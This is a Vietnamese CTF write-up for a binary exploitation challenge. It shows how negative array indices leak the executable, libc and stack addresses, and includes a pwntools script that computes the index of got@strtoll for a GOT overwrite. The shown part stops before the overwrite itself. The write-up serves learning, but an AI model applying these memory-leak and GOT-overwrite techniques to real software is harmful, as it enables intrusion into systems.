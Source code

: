 ta thấy nếu ta nhập 0 thì nó bắt đầu từ rsp nên giờ ta thử nhập -10 để xem những thứ ta có thể leak được gì nào

![image](https://github.com/gookoosss/CTF/assets/128712571/71d4b9b8-e319-43df-a872-0ec10f1262be)


như ta thấy thì **rsp là 0x7fffffffdd20** tương đương với **index = 0**, nhìn lên trên thì ta thấy tại vị trí **index = -6 thì ta leak được exe, index = -2 thì ta leak được libc, còn index = - 7 thì ta leak được stack** 

### NOTE
```lý do tại sao mình ko index bằng số dương mà lại dùng số âm, đơn giản thôi nếu bạn dùng số dương thì sẽ leak cái giá trị trong mảng của v6, Nhưng mà cái này nó sẽ ko cố định mà thay đổi trong mỗi lần chạy nên sử dụng nó thì rất hên xui may rủi, đó là lý do mình nên cho index bằng số âm```



- à tới đây thì ta leak được rsp nên **ta có thể tính được index trỏ đến got@strtoll** (mình có note bên trong script , các bạn có thể đọc thêm để hiểu)



```python3

#################################
### Stage 1: leak exe address ###
#################################

p.sendlineafter(b'?: ', b'R')
p.sendlineafter(b'Index: ', b'-6')
p.recvuntil(b'Value: ')
exe_leak = int(p.recvline()[:-1], 10)
exe.address = exe_leak - 0x201f
log.info('Exe leak: ' + hex(exe_leak))
log.info('Exe base: ' + hex(exe.address))

##################################
### Stage 2: leak libc address ###
##################################

p.sendlineafter(b'?: ', b'R')
p.sendlineafter(b'Index: ', b'-2')
p.recvuntil(b'Value: ')
libc_leak = int(p.recvline()[:-1], 10)
libc.address = libc_leak - 0x264040
log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))

##################################
### Stage 3: leak stack rsp    ###
##################################

p.sendlineafter(b'?: ', b'R')
p.sendlineafter(b'Index: ', b'-7')
p.recvuntil(b'Value: ')
stack_leak = int(p.recvline()[:-1], 10)
rsp = stack_leak - 0x320
idx = int(rsp - exe.got['strtoll']) // -8 ### (NOTE)
log.info('stack leak: ' + hex(stack_leak))
log.info('rsp leak: ' + hex(rsp))

# NOTE:

# chỗ này hơi khó hiểu nhưng mà mình sẽ diễn đạt đơn giản là như thế:
# điểm xuất phát là rsp , tương đương với index = 0, bây giờ ta cần thay đổi got@strtoll thì ta cần biết cái index trỏ đến nó
```